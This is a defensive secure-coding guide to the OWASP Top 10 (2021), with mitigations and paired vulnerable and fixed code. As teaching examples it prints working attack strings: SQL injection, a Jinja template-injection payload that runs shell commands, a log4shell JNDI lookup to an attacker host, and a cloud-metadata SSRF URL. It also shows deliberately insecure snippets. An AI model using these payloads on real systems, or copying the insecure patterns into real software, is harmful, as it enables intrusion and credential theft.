


# OWASP Top 10 (2021)

## Why This Exists

**Problem.** Web applications fail in a small number of well-understood ways. Every year, the same classes of bugs ship to production: missing authorization checks, parameterized queries that aren't, JWTs validated by the client, S3 buckets left public, libraries six majors behind a known CVE. The OWASP Top 10 is the industry's empirical answer — based on incidence rates across hundreds of thousands of applications and bug bounty corpora — to "what should we look at first."

**Key insight.** The Top 10 is not a compliance checkbox; it's a **prevalence-weighted prior**. If you're triaging a new service, doing threat modelling, or staring at a fresh codebase, scanning these 10 categories catches the long tail of issues that real attackers exploit before any zero-day. **A01 Broken Access Control jumped from #5 (2017) to #1 (2021) — 94% of tested applications had some form of broken access control.** Treat that number as a memento mori on every code review.

**Reach for this when:**
- Pre-launch security review of an HTTP API or web app.
- Triaging a bug bounty report or SOC ticket and you need to classify it.
- Onboarding to a new codebase and scanning for "obvious" weaknesses.
- Designing or reviewing a threat model (STRIDE) — Top 10 maps to Tampering / Information Disclosure / Elevation.
- A junior engineer asks "what does 'secure' even mean?" — start here.

**Don't reach for this when:**
- You're hardening cloud IAM specifically (this overlaps A01/A05/A07 but cloud has its own taxonomy: IAM least-privilege, network segmentation, KMS).
- You're doing **mobile** security — use OWASP Mobile Top 10 / MASVS.
- You're securing **LLM applications** — OWASP has a separate LLM Top 10 (prompt injection, data leakage, supply chain).
- Your problem is reliability, not security — that's SRE territory.

## Diagrams

### Threat surface mapped to Top 10



### A01: IDOR (Insecure Direct Object Reference) — the canonical access control bug



## The Ten Categories

Order matches OWASP 2021 (most prevalent first). Each item: **what it is → how it manifests → exploitation → mitigation → code**.

---

### A01:2021 — Broken Access Control

**What it is.** The application authenticates the user but fails to enforce **what they're allowed to do**. Authn answers "who"; authz answers "what." A01 is everything that goes wrong with the latter.

**Manifests as:**
- **IDOR** — `/api/users/{id}` returns any user when you change the id.
- **Horizontal escalation** — Alice reads Bob's data (same role, different tenant).
- **Vertical escalation** — Alice (user) hits `/admin/*` and gets through.
- **Force browsing** — `/admin/users.csv` loads despite no link in the UI.
- **JWT manipulation** — changing `"role":"user"` → `"role":"admin"` and the server doesn't reverify.
- **CORS misconfig** — `Access-Control-Allow-Origin: *` with `Allow-Credentials: true` (browsers actually block this combo, but `Allow-Origin: <reflected>` is the real bug).

**Exploitation.** Burp Suite / mitmproxy, increment IDs, swap UUIDs from a second account, replay other users' tokens, decode-and-resign JWTs.

**Mitigation.**
- **Deny by default.** Every endpoint requires an explicit allow.
- **Centralize authz.** One policy engine (OPA, Cedar, casbin) — not 200 if-statements.
- **Resource ownership at the query layer.** `WHERE id = ? AND tenant_id = ?` — never just `WHERE id = ?`.
- **Don't trust client-supplied identity.** No `X-User-Id` headers from the browser.

```python
# WRONG — A01 IDOR
@app.get("/api/invoices/{invoice_id}")
def get_invoice(invoice_id: int, user=Depends(current_user)):
    return db.query(Invoice).get(invoice_id)  # any user can fetch any invoice

# RIGHT — ownership enforced in the query, not as a post-filter
@app.get("/api/invoices/{invoice_id}")
def get_invoice(invoice_id: int, user=Depends(current_user)):
    inv = db.query(Invoice).filter_by(id=invoice_id, owner_id=user.id).first()
    if not inv:
        raise HTTPException(404)  # 404 not 403 — don't leak existence
    return inv
```

```rego
# Centralised authz with OPA (Rego) — invoked from a middleware
package authz

default allow = false

allow if {
    input.method == "GET"
    input.path = ["api", "invoices", id]
    input.user.id == data.invoices[id].owner_id
}

allow if {
    input.user.role == "admin"
}
```

---

### A02:2021 — Cryptographic Failures (was "Sensitive Data Exposure")

**What it is.** Failure to **protect data in transit and at rest**, or use of broken/weak/misused cryptography. Renamed in 2021 because the *root cause* is crypto failure; data exposure is the symptom.

**Manifests as:**
- Plaintext HTTP, mixed content, missing HSTS.
- MD5/SHA1 for password hashing, or unsalted SHA-256 (SHA is fast — that's bad for passwords).
- ECB mode (the famous Tux penguin), reused IVs in CTR/GCM, hardcoded keys in source.
- TLS 1.0/1.1, weak ciphers, self-signed certs in prod.
- Storing card numbers / SSNs / PHI when you shouldn't store them at all.
- "We encrypt at rest" but the key is in the same database.
- JWT signed with `HS256` and a 12-character secret committed to GitHub.

**Exploitation.** Passive sniffing on hostile networks, offline brute force of leaked hash dumps (8x A100 GPUs do ~200 GH/s on MD5), padding oracle attacks (CBC), nonce-reuse forgery (GCM).

**Mitigation.**
- **Don't store what you don't need.** Cards: tokenize via Stripe/Adyen. SSNs: hash + salt if you only need to match.
- **Passwords: argon2id** (or bcrypt cost ≥ 12, or scrypt). Never SHA.
- **TLS 1.2+ only**, HSTS with `preload`, modern cipher suites (Mozilla "Intermediate" config).
- **AEAD for symmetric crypto** — AES-GCM or ChaCha20-Poly1305. Never raw CBC.
- **KMS-managed keys.** Envelope encryption: KMS encrypts a DEK, DEK encrypts the data.
- **Don't roll your own.** Use libsodium / `cryptography` (Python) / Tink.

```python
# WRONG
import hashlib
hashed = hashlib.sha256(password.encode()).hexdigest()  # too fast, no salt

# RIGHT
from argon2 import PasswordHasher
ph = PasswordHasher(time_cost=3, memory_cost=64*1024, parallelism=4)
hashed = ph.hash(password)
# verify
try:
    ph.verify(hashed, supplied_password)
except VerifyMismatchError:
    raise InvalidCredentials
```

```python
# AEAD encryption with envelope keys
from cryptography.hazmat.primitives.ciphers.aead import AESGCM
import os

dek = AESGCM.generate_key(bit_length=256)        # data encryption key
nonce = os.urandom(12)                            # NEVER reuse with same key
ct = AESGCM(dek).encrypt(nonce, plaintext, aad)  # AAD binds context (e.g. user_id)
# Wrap dek with KMS, store nonce || ct || wrapped_dek
```

---

### A03:2021 — Injection

**What it is.** **Untrusted data is interpreted as code or commands** by a downstream interpreter (SQL, OS shell, LDAP, XPath, OS command, NoSQL operators, ORM raw queries, template engines). Now also includes **Cross-Site Scripting (XSS)** — the browser is the interpreter.

**Manifests as:**
- `"SELECT * FROM users WHERE name='" + name + "'"` — SQLi.
- `os.system(f"convert {filename} out.png")` — command injection.
- `render_template_string(user_input)` — Jinja SSTI → RCE.
- `db.users.find({"$where": user_input})` — NoSQL injection.
- `innerHTML = userBio` — DOM XSS.
- `<div>{{ comment|safe }}</div>` — stored XSS.
- LDAP filter built by string concat — credential bypass.

**Exploitation.** sqlmap; manual `' OR 1=1 --`; blind boolean / time-based (`'; WAITFOR DELAY '0:0:5'--`); `<svg onload=alert(1)>`; SSTI via `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}`.

**Mitigation.**
- **Parameterized queries / prepared statements** — always. Not "as much as possible."
- **ORMs help but don't immunize** — `User.objects.raw()` in Django, `query.exec(rawSQL)` in Sequelize, sloppy `format!` in sqlx all reintroduce it.
- **Allowlist for table/column names** when they really must be dynamic.
- **Output encoding context-aware** — HTML body vs HTML attribute vs JS vs CSS vs URL all need different escaping. Use the framework (Jinja autoescape, React JSX, Go `html/template`).
- **Never** `dangerouslySetInnerHTML` / `v-html` / `[innerHTML]` with user data without DOMPurify.
- **CSP** as defense in depth: `default-src 'self'; script-src 'self' 'nonce-...';` — kills inline-script XSS even when the bug exists.

```typescript
// WRONG — string concat to SQL
const r = await db.query(`SELECT * FROM orders WHERE user='${userId}'`);

// RIGHT — parameterized
const r = await db.query("SELECT * FROM orders WHERE user = $1", [userId]);

// WRONG — XSS sink
element.innerHTML = `<p>${comment}</p>`;

// RIGHT — text node
element.textContent = comment;
// or with deliberate HTML: sanitize first
import DOMPurify from "dompurify";
element.innerHTML = DOMPurify.sanitize(commentHtml);
```

```python
# Command injection — almost always solvable by NOT going through a shell
import subprocess
# WRONG
subprocess.run(f"convert {fn} out.png", shell=True)
# RIGHT
subprocess.run(["convert", fn, "out.png"], shell=False, check=True)
```

---

### A04:2021 — Insecure Design

**What it is.** **New category in 2021.** Bugs you can't fix by patching code — the **architecture itself** has missing controls. Pre-coding decisions (or absence of them) that let attackers reason their way to abuse.

**Manifests as:**
- No rate limiting on login → credential stuffing.
- No rate limiting on password reset → SMS-bomb / email-bomb / cost attack.
- Coupon code redemption without idempotency → race condition lets one code apply N times.
- Workflow bypass — checkout charges before payment authorizes.
- No fraud / abuse model on a free-tier API → `$40k Lambda bill` overnight.
- "Forgot password" goes to a security question that's on the user's LinkedIn.
- Trust boundary confusion — internal admin tool exposed via public ALB because "the URL is unguessable."

**Exploitation.** Threat modeling **from the attacker's POV**. Ask: "If I had infinite time, where do I find the cheapest dollar?" Often: rate-limit-less endpoints, money-flow code paths, anything mediating cost (sending SMS, calling AI APIs, generating PDFs).

**Mitigation.**
- **Threat-model early** (STRIDE, attack trees) — before, not after.
- **Reference architectures with security baked in** — security paved roads.
- **Abuse-case stories** alongside user stories ("As an attacker, I try to enumerate users via timing on /reset").
- **Rate limits and budgets per principal** — token bucket on user/IP/tenant.
- **Idempotency keys** on money-moving endpoints.
- **Defense in depth** — assume each layer fails.

```python
# Rate-limit + idempotency on a money-moving endpoint
@app.post("/api/charge")
@rate_limit("user:{user.id}", 10, "1 minute")
def charge(req: ChargeRequest, user=Depends(current_user),
           idempotency_key: str = Header(...)):
    # idempotency: dedupe on (user_id, key) within 24h window
    if cached := redis.get(f"idem:{user.id}:{idempotency_key}"):
        return json.loads(cached)
    result = stripe.charge(user, req.amount)
    redis.setex(f"idem:{user.id}:{idempotency_key}", 86400, json.dumps(result))
    return result
```

---

### A05:2021 — Security Misconfiguration

**What it is.** The software is fine; the **deployment** is wrong. Defaults left on, debug endpoints exposed, headers missing, cloud buckets public.

**Manifests as:**
- `DEBUG=True` in Django/Flask in prod → stack traces leak code, secrets, env vars.
- Spring Boot Actuator endpoints (`/env`, `/heapdump`) exposed unauthenticated.
- Kubernetes dashboard with `--enable-skip-login`.
- S3 bucket policy `Effect: Allow, Principal: "*"`.
- Default credentials (`admin/admin`) on Tomcat manager.
- Verbose error messages in HTTP responses.
- Missing security headers: HSTS, X-Content-Type-Options, X-Frame-Options/CSP frame-ancestors, Referrer-Policy.
- Open `.git/`, `.env`, `phpinfo.php`, `/server-status`.

**Exploitation.** Shodan, censys.io, dirbusting (`ffuf`, `gobuster`), Nuclei templates against your IP range.

**Mitigation.**
- **Hardened base images.** Distroless / Chainguard / minimal Alpine.
- **Infrastructure as code with policy** — OPA/Conftest, AWS Config rules, Checkov.
- **Image scanning** — Trivy, Snyk Container, Grype — in CI.
- **CSPM** — Prowler, Steampipe, AWS Security Hub on every account.
- **Disable defaults** — actuator behind admin port, debug off, prod env strict.
- **Block public buckets** by default at the org/account level (S3 Block Public Access).

```yaml
# Hardened response headers (nginx)
add_header Strict-Transport-Security "max-age=63072000; includeSubDomains; preload" always;
add_header X-Content-Type-Options "nosniff" always;
add_header Referrer-Policy "strict-origin-when-cross-origin" always;
add_header Content-Security-Policy "default-src 'self'; object-src 'none'; frame-ancestors 'none'; base-uri 'self'" always;
add_header Permissions-Policy "geolocation=(), microphone=(), camera=()" always;
server_tokens off;  # don't leak nginx version
```

```python
# Spring Boot equivalent — actuator scoped
management:
  endpoints:
    web:
      exposure:
        include: health, info  # NOT *
      base-path: /internal
  server:
    port: 9090  # different port, not exposed via ingress
```

---

### A06:2021 — Vulnerable and Outdated Components

**What it is.** Your code is fine; you `npm install`-ed someone else's bug. Includes OS packages, language deps, container base images, and frontend libraries.

**Manifests as:**
- log4j 2.14 on a public-facing JVM service (CVE-2021-44228 / log4shell — RCE).
- jQuery 1.x with prototype pollution.
- OpenSSL 1.0.x (Heartbleed lineage), or 3.0.0–3.0.6 (CVE-2022-3602).
- Pinned-but-unpatched base images: `python:3.9.0` from 2020.
- Transitive dependency CVEs that nobody owns (Equifax / Apache Struts CVE-2017-5638 — $700M+ in damages).

**Exploitation.** CVE databases are public. Attackers run `nuclei -t cves/` against IP ranges. For log4shell, `${jndi:ldap://attacker/x}` in any logged field — User-Agent, X-Forwarded-For, login form.

**Mitigation.**
- **SBOM + continuous CVE scan.** Trivy, Snyk, Dependabot, Renovate, GitHub Advanced Security. Generate SPDX/CycloneDX SBOM in CI.
- **Patch SLAs.** Critical < 7d, High < 30d, Medium < 90d. Track on a dashboard.
- **Renovate auto-PRs.** Don't rely on humans noticing.
- **Pin via lockfile** (`package-lock.json`, `Pipfile.lock`, `go.sum`) — but pin to **patched** versions.
- **Reduce attack surface.** Distroless images. Remove unused deps (`depcheck`, `unimport`).
- **Subresource Integrity (SRI)** for CDN scripts: `<script integrity="sha384-...">`.

```yaml
# GitHub Actions: scan every PR + nightly
name: deps-scan
on: [pull_request, schedule]
jobs:
  trivy:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: aquasecurity/trivy-action@master
        with:
          scan-type: fs
          severity: CRITICAL,HIGH
          exit-code: 1
          ignore-unfixed: true
```

---

### A07:2021 — Identification and Authentication Failures

**What it is.** Authentication itself is broken or bypassable. Renamed from "Broken Authentication" (2017) to include identification.

**Manifests as:**
- No MFA, or MFA only via SMS (SIM-swap territory).
- Weak password policies (no length minimum, no breached-password check).
- Credential stuffing — no rate limit, no anomaly detection, no captcha-on-suspicion.
- Session IDs in URLs (logged in proxies, Referer leaks).
- Sessions that don't rotate on privilege change or after login.
- Long-lived JWTs with no revocation list.
- `alg: none` accepted by JWT library.
- Password reset tokens that don't expire, are predictable, or are sent over HTTP.
- Username enumeration via different responses ("user not found" vs "wrong password") — also via timing.

**Exploitation.** Credential stuffing tools (Sentry MBA, OpenBullet) with rotating proxies and breach corpora (rockyou, COMB, HIBP). Session fixation. JWT `none` alg. Token replay across tenants.

**Mitigation.**
- **Use a proven IdP.** Auth0, Cognito, Okta, Keycloak, Clerk. Don't roll your own.
- **MFA, prefer WebAuthn / passkeys** over TOTP, TOTP over SMS.
- **Argon2id** for password hashing.
- **Check passwords against HIBP** Pwned Passwords (k-anonymity API, free).
- **Rate limit + lockout** with exponential backoff; CAPTCHAs on anomaly.
- **Short-lived access tokens (15m)** + rotating refresh tokens with reuse detection.
- **Session rotation** on login, logout, privilege change.
- **Generic auth errors** — "Invalid email or password," same response time, same body.

```python
# WRONG — username enumeration via response
if not user:
    return {"error": "User not found"}, 404
if not verify_password(user, pw):
    return {"error": "Wrong password"}, 401

# RIGHT — generic, constant-time
import secrets
if not user or not ph.verify(user.hash, pw):
    secrets.compare_digest("a", "b")  # equalize work even when user is None
    return {"error": "Invalid credentials"}, 401
```

```python
# JWT library pitfall — explicit algorithm allowlist
import jwt
# WRONG — accepts whatever alg the token claims, including 'none'
payload = jwt.decode(token, secret)
# RIGHT
payload = jwt.decode(token, secret, algorithms=["RS256"])  # NOT ["RS256","HS256"]
```

---

### A08:2021 — Software and Data Integrity Failures

**What it is.** **New category in 2021.** Trusting code or data without verifying it. Covers (a) **insecure deserialization** (formerly its own item) and (b) **supply-chain integrity** — CI/CD pipelines, dependency confusion, unsigned artifacts.

**Manifests as:**
- Java `ObjectInputStream.readObject()` on attacker-controlled bytes → RCE via gadget chains (ysoserial).
- Python `pickle.loads()` on user input → trivial RCE.
- PHP `unserialize()` with magic methods.
- `.NET` `BinaryFormatter` — Microsoft has officially declared it dangerous.
- Auto-update fetching from HTTP without signature verification.
- Dependency confusion — registering a public package with the same name as your private one.
- CI runners with broad cloud creds and no isolation between PRs (Pwn Request).
- Container images pulled by tag (`:latest`) with no digest pinning.

**Exploitation.** ysoserial, marshalsec; SolarWinds-style supply-chain implants; `npm install evil-typo-package`; tampering with artifacts in S3 because the bucket is writable.

**Mitigation.**
- **Don't deserialize untrusted input** with format-native serialization. Use JSON with strict schemas (Pydantic, zod, JSON Schema).
- If you must, use **safe formats** — protobuf, MessagePack with type-restricted decoders.
- **Sign artifacts.** Sigstore / cosign for containers. PEP 458 / TUF for Python. SLSA Level 3 as the goal.
- **Pin to digests, not tags.** `image: nginx@sha256:abc...` not `image: nginx:1.25`.
- **SBOM at build time**, attest provenance (in-toto, GitHub artifact attestations).
- **CI hardening** — least-privilege OIDC to cloud, no secrets in PRs from forks, PR-trigger scoping.
- **Subresource Integrity** for browser-loaded code.

```python
# WRONG — pickle is RCE-by-design with untrusted input
import pickle
data = pickle.loads(request.body)

# RIGHT — schema-validated JSON
from pydantic import BaseModel
class Order(BaseModel):
    id: int
    amount: Decimal
    currency: Literal["USD","EUR"]
order = Order.model_validate_json(request.body)
```

```yaml
# Cosign verify in deploy
- name: verify image signature
  run: |
    cosign verify \
      --certificate-identity-regexp "https://github.com/myorg/.*" \
      --certificate-oidc-issuer https://token.actions.githubusercontent.com \
      ghcr.io/myorg/api@${{ env.IMAGE_DIGEST }}
```

---

### A09:2021 — Security Logging and Monitoring Failures

**What it is.** You can't detect what you don't log, can't respond to what you don't alert on. The breach you find out about from Brian Krebs.

**Manifests as:**
- No audit log of authentication events (success, failure, MFA challenge).
- Logs exist but are local-only — wiped when the box is compromised.
- No log of authorization decisions ("user X attempted to access resource Y, denied").
- PII / secrets / full request bodies dumped into logs (creates A02 from your monitoring).
- No alerts on suspicious patterns — 1000 failed logins from one IP, privilege change, mass data export.
- Logs retained for 7 days when median dwell time of attackers is **204 days** (IBM Cost of a Data Breach 2023).
- Application logs without request IDs / trace IDs / user IDs — can't reconstruct sessions.

**Exploitation.** Living-off-the-land: attackers prefer environments with no detection. Lack of monitoring is what turns an incident into a breach.

**Mitigation.**
- **Log auth events, authz denials, input validation failures, server-side validation, integrity violations** — minimum.
- **Centralize off-host** — CloudWatch, Datadog, Splunk, ELK, Loki — with append-only access.
- **Structured logs** (JSON) with consistent fields: `timestamp, request_id, user_id, action, resource, decision, source_ip`.
- **Redaction at log boundary** — strip cards, tokens, passwords, SSNs before they hit disk.
- **Retention** ≥ 90 days hot, 1+ year cold, in line with breach detection windows and regs (PCI = 1y, HIPAA = 6y).
- **Alert on signal, not noise.** Failed-login rate, privilege-escalation, geo-anomaly, mass-export patterns.

```python
import logging, json, structlog

logger = structlog.get_logger()

def login(req):
    user = find_user(req.email)
    ok = user and ph.verify(user.hash, req.password)
    logger.info(
        "auth.login",
        request_id=req.id,
        user_id=user.id if user else None,
        email_hash=hashlib.sha256(req.email.encode()).hexdigest(),  # not the email
        outcome="success" if ok else "failure",
        source_ip=req.ip,
        user_agent=req.headers.get("user-agent"),
    )
    if not ok:
        metrics.increment("auth.login.fail", tags=[f"ip:{req.ip}"])
    return ok
```

---

### A10:2021 — Server-Side Request Forgery (SSRF)

**What it is.** The application fetches a URL on the user's behalf, and the user controls the URL. You hand the attacker your server's network identity.

**Manifests as:**
- Webhook endpoints, image preview generators, PDF renderers (headless Chrome on attacker URL!), URL un-shorteners, importers, OAuth `redirect_uri` mishandling.
- Attacker submits `http://169.254.169.254/latest/meta-data/iam/security-credentials/<role>` → exfiltrates EC2 instance role credentials. (This is precisely how the **Capital One 2019 breach** stole 100M records.)
- `http://localhost:6379` to talk to internal Redis with no auth.
- `http://10.0.0.5/admin` — internal admin panels.
- DNS rebinding to bypass a host allowlist (TTL=0, first resolution = allowed, second = internal IP).
- `gopher://`, `dict://`, `file://` schemes for non-HTTP exploitation.

**Exploitation.** Submit URLs that point inward. Burp Collaborator. Use redirects to bypass naive checks. Chain with cloud metadata endpoints for credential theft.

**Mitigation.**
- **Block link-local / private IP ranges by default.** RFC 1918 (10/8, 172.16/12, 192.168/16), 169.254/16, 127/8, ::1, fc00::/7.
- **Allowlist hosts** if the use case is fixed (e.g. webhook to known partners).
- **Resolve DNS once, validate, then connect to that IP** — defeats DNS rebinding.
- **Require IMDSv2** on EC2 (session-token, hop-limit=1) — kills the Capital-One-class attack.
- **Egress proxy with policy** — all outbound via a proxy that enforces allowlists, not via the app's NIC.
- **Disable unused URL schemes** — only allow `https://` (and maybe `http://` for dev).
- **Network segmentation** — the service that fetches user URLs lives in a VPC with no path to internal infra.

```python
import socket, ipaddress, urllib.parse

PRIVATE = [
    ipaddress.ip_network(n) for n in [
        "10.0.0.0/8", "172.16.0.0/12", "192.168.0.0/16",
        "127.0.0.0/8", "169.254.0.0/16", "::1/128", "fc00::/7", "fe80::/10",
        "0.0.0.0/8",
    ]
]

def safe_fetch(url: str) -> bytes:
    u = urllib.parse.urlparse(url)
    if u.scheme not in ("http", "https"):
        raise ValueError("scheme not allowed")
    # Resolve once; then connect to that exact IP (defeats DNS rebinding)
    infos = socket.getaddrinfo(u.hostname, u.port or (443 if u.scheme=="https" else 80))
    ip = ipaddress.ip_address(infos[0][4][0])
    if any(ip in net for net in PRIVATE):
        raise ValueError(f"private/internal address blocked: {ip}")
    if not ip.is_global:
        raise ValueError(f"non-global address blocked: {ip}")
    # Connect to ip directly, but pass Host header for TLS SNI / vhosting
    return _http_get(ip=str(ip), host=u.hostname, path=u.path, scheme=u.scheme)
```

```bash
# IMDSv2 — defeats SSRF-to-credentials
aws ec2 modify-instance-metadata-options \
  --instance-id i-0123 \
  --http-tokens required \
  --http-put-response-hop-limit 1 \
  --http-endpoint enabled
```

---

## Trade-offs

| Benefit | Cost |
|---|---|
| Centralized authz (OPA, Cedar) — **A01** | Extra service hop, policy debugging, cold-start latency |
| Argon2id over SHA — **A02/A07** | ~100ms per login (intentional); CPU/memory cost on auth nodes |
| Parameterized queries everywhere — **A03** | Slightly more boilerplate; some dynamic-query patterns need refactoring |
| Strict CSP — **A03 (XSS)** | Inline scripts/styles forbidden; legacy frontends need work; nonces complicate caching |
| Threat modelling pre-build — **A04** | Time before code; requires senior judgement; can over-design |
| Hardened base images — **A05** | Smaller debug surface (no shell in distroless); harder oncall |
| Aggressive dep updates — **A06** | Breakage risk; need strong test coverage to absorb churn |
| Short-lived tokens + refresh — **A07** | Token-refresh complexity; requires revocation infra for compromise |
| Signed artifacts (cosign/SLSA) — **A08** | Build pipeline complexity; key management; verify steps in deploy |
| Verbose audit logs — **A09** | Storage cost ($$ at scale); PII risk if not redacted; query latency |
| SSRF allowlist + egress proxy — **A10** | Legitimate webhook integrations need explicit onboarding; ops overhead |

## Common Pitfalls

- **"We have authentication"** — confusing authn with authz. The classic A01.
- **"The ORM prevents injection"** — until someone uses `.raw()`, dynamic table names, or `LIKE '%' || user || '%'` concatenation.
- **"We sanitize input"** — input sanitization is a blunt tool; encode at output for the right context (HTML / JS / URL / SQL all differ).
- **Server-side validation that mirrors client-side validation** — but only client-side actually runs. Browser is the attacker.
- **Storing JWTs in `localStorage`** — XSS reads it. Use `httpOnly; Secure; SameSite=Lax` cookies + CSRF mitigation.
- **`SameSite=Strict` everywhere** — breaks SSO redirects. Use `Lax` for session cookies, with double-submit / Origin-header CSRF defense.
- **CORS with `Allow-Origin: *` + `Allow-Credentials: true`** — browsers block this combo, but reflecting `Origin` and allowing credentials is functionally equivalent to wildcarding. Use a strict allowlist.
- **JWT with `HS256` and a secret in source** — also: forgetting to validate `aud`, `iss`, `exp`. Better: asymmetric (`RS256`/`EdDSA`), short TTL, JWKS rotation.
- **"It's behind a VPN, so it's secure"** — A04. Lateral movement happens. Authenticate even on internal links (zero trust / BeyondCorp model).
- **Logging request bodies "for debugging"** — captured tokens, passwords, card numbers. Now your log store is in PCI scope.
- **Trusting `X-Forwarded-For` from the edge without trimming hops** — log poisoning, rate-limit bypass.
- **Open redirect dismissed as low-severity** — until it's chained to OAuth `redirect_uri` for token theft. Fix it.
- **Mass-assignment** — `User.objects.update(**request.json)` lets attackers set `is_admin=True`. Use explicit allowlists / DTOs.
- **Race conditions on financial state** — coupon, balance, inventory. SELECT FOR UPDATE, optimistic locking with version columns, or idempotency.
- **`eval()` / `Function()` / `setTimeout(string)`** — A03 in JS form. Just don't.
- **Trusting filename or `Content-Type`** on uploads — attacker controls both. Validate magic bytes, store outside webroot, serve from a different origin (`usercontent.com`-style).
- **PDF/SSRF combo** — `wkhtmltopdf` and headless Chrome on attacker URL = SSRF + RCE potential. Sandbox the renderer in a network-isolated container.

## Decision Table

| Symptom | Most likely category | First place to look |
|---|---|---|
| User can read another user's resource by changing an ID | A01 | Endpoint handler — is `WHERE owner=?` in the query? |
| Stack trace leaked in 500 response | A05 | `DEBUG=False` in prod; generic error handler |
| Login works, but anyone can become admin | A01 (vertical) or A07 (token forgery) | Role check on `/admin/*`; JWT alg validation |
| `'or'1'='1` in URL returns all rows | A03 | Find the raw query; replace with prepared stmt |
| Password reset email contains predictable token | A07 | Token entropy ≥ 128 bits, single-use, expire ≤ 1h |
| Public-facing endpoint takes a URL parameter and fetches it | A10 | Block private IPs; pin DNS resolution; egress proxy |
| Library used has a CVSS 9.x CVE | A06 | SBOM + Trivy; bump or hot-patch; shield with WAF rule |
| Logs show 10k failed logins from one IP, no alert fired | A09 | Add detection + lockout; check for credential stuffing |
| App accepts pickle / Java-serialized payloads | A08 | Switch to JSON+schema; or sign+verify the payload |
| Same database password in code, prod, staging, and the wiki | A02 + A05 | Secrets manager (KMS/SSM/Vault); rotate; audit access |
| Coupon code applied 50 times in 1 second | A04 | Idempotency + DB-level uniqueness on (user, code) |
| `Set-Cookie` without `Secure` / `HttpOnly` | A05 / A07 | Cookie hardening; CSP; same-site |

## References

Primary OWASP sources:

- OWASP — **Top 10 (2021)** — https://owasp.org/Top10/
- OWASP — **A01:2021 Broken Access Control** — https://owasp.org/Top10/A01_2021-Broken_Access_Control/
- OWASP — **A02:2021 Cryptographic Failures** — https://owasp.org/Top10/A02_2021-Cryptographic_Failures/
- OWASP — **A03:2021 Injection** — https://owasp.org/Top10/A03_2021-Injection/
- OWASP — **A04:2021 Insecure Design** — https://owasp.org/Top10/A04_2021-Insecure_Design/
- OWASP — **A05:2021 Security Misconfiguration** — https://owasp.org/Top10/A05_2021-Security_Misconfiguration/
- OWASP — **A06:2021 Vulnerable and Outdated Components** — https://owasp.org/Top10/A06_2021-Vulnerable_and_Outdated_Components/
- OWASP — **A07:2021 Identification and Authentication Failures** — https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/
- OWASP — **A08:2021 Software and Data Integrity Failures** — https://owasp.org/Top10/A08_2021-Software_and_Data_Integrity_Failures/
- OWASP — **A09:2021 Security Logging and Monitoring Failures** — https://owasp.org/Top10/A09_2021-Security_Logging_and_Monitoring_Failures/
- OWASP — **A10:2021 Server-Side Request Forgery (SSRF)** — https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/

OWASP cheat sheets (most concise authoritative how-to):

- OWASP — **Cheat Sheet Series Index** — https://cheatsheetseries.owasp.org/
- OWASP — **Authorization Cheat Sheet** — https://cheatsheetseries.owasp.org/cheatsheets/Authorization_Cheat_Sheet.html
- OWASP — **Password Storage Cheat Sheet** — https://cheatsheetseries.owasp.org/cheatsheets/Password_Storage_Cheat_Sheet.html
- OWASP — **SQL Injection Prevention Cheat Sheet** — https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
- OWASP — **Cross-Site Scripting Prevention Cheat Sheet** — https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- OWASP — **SSRF Prevention Cheat Sheet** — https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html
- OWASP — **Deserialization Cheat Sheet** — https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html
- OWASP — **JWT Cheat Sheet** — https://cheatsheetseries.owasp.org/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.html
- OWASP — **REST Security Cheat Sheet** — https://cheatsheetseries.owasp.org/cheatsheets/REST_Security_Cheat_Sheet.html

Standards / surveys:

